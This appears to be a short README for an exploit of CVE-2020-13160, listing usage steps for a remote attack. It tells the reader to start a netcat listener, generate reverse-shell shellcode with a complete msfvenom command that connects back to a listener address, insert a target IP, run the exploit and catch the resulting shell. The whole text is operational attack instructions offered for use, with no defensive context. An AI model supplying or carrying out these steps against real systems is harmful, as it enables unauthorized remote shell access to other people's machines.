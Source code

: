 Usage:
Step 1: use nc to listen local port（any one）
Step 2: use msfvenom to generate shellocode,eg:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.174.131 LPORT=6666 -b "\x00\x25\x26" -f python -v shellcode`
Step 3:Replease the shellcode and Target IP Address to you test
Step 4: run the exp,python CVE-2020-13160
Step 5: After a few time later a reverse shell will reback
